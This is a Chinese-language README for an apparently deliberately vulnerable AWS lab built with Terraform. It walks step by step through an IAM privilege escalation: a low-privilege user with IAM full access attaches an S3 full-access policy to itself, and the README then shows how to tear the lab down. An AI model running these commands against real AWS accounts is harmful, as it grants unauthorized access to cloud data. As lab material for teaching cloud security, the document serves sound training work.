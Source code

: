 # AWS IAM 提权漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建 AWS IAM 提权漏洞环境的靶场。

使用 Terraform 构建环境后，用户可以通过 IAM 提权漏洞访问到原本没有权限访问的服务。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/aws/identity_and_access_management/privilege_escalation
```

配置 AWS 访问凭证

```shell
aws configure
```

> 在 AWS 「控制台——》安全凭证」处可以设置并查看你的 `aws_access_key_id` 和 `aws_secret_access_key`

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

环境搭建完后，通过以下命令查看低权限账号的 access_key_id 和 secret_access_key

```shell
apt-get install jq -y
terraform state pull | jq '.resources[] | select(.type == "aws_iam_access_key") | .instances[0].attributes'
```

![img](../../../images/1652690733.png)

## 漏洞利用

首先配置上低权限账号的 access_key_id 和 secret_access_key

```shell
aws configure
```

配置完后，这里以 S3 服务为例，尝试运行以下命令，发现访问被拒绝

```shell
aws s3 ls
```

![img](../../../images/1652690932.png)

查看当前用户的权限

```shell
aws iam get-user
aws iam list-user-policies --user-name huoxian_terraform_test
aws iam get-user-policy --user-name huoxian_terraform_test --policy-name IAMFullAccess
```

![img](../../../images/1652692179.png)

发现当前用户有 IAM 的所有权限，这也就意味着我们可以给当前用户赋予 S3 的权限，从而使当前用户拥有 S3 服务的权限。

编辑策略文件

```shell
vim AmazonS3FullAccess.json
```

文件内容如下：

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "s3:*",
                "s3-object-lambda:*"
            ],
            "Resource": "*"
        }
    ]
}
```

上传策略文件

```shell
aws iam put-user-policy --user-name huoxian_terraform_test --policy-name AmazonS3FullAccess --policy-document file://AmazonS3FullAccess.json
```

再次尝试获取 S3 服务内容，发现已经可以获取了，说明策略文件生效了，这样就实现了 IAM 提权。

```shell
aws s3 ls
```

![img](../../../images/1652692416.png)

## 销毁环境

```shell
aws iam delete-user-policy --user-name huoxian_terraform_test --policy-name AmazonS3FullAccess
terraform destroy
```
